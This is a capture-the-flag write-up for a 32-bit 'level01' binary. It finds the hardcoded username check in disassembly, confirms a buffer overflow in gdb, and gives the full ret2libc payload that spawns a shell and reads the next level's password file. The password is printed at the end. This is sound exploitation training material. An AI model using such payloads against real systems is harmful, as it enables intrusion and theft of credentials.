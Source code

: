 In this exercice we have 2 functions other than main: verify_user_name() and verify_user_pass():

for verify_user_name, we can see that it compares the first 7 letters of the input with the str("dat_wil"): 

   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]

if this comparison goes through we get to enter the password then to verify_user_pass(), this function compares the first 5 letters with the str("admin"), but it will return incorrect password either way.

Since there is no hidden function or call system we will use a buffer overlow + ret2libc to get the flag, we will first test with the payload:
"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ" when running it in gdb we receive a segfault in 0x55555555 (U) :

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

This means we can replace from the letter U and beyond with system()+4 bytes+"/bin/sh":

p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

find 0xf7e2c000,0xf7fcc000, "/bin/sh"
0xf7f897ec

so our final input will be as follows:

python -c 'print("dat_wil\n" + "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" + "\xd0\xae\xe6\xf7" + "0000" + "\xec\x97\xf8\xf7c")' > payload; cat payload - | ./level01

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv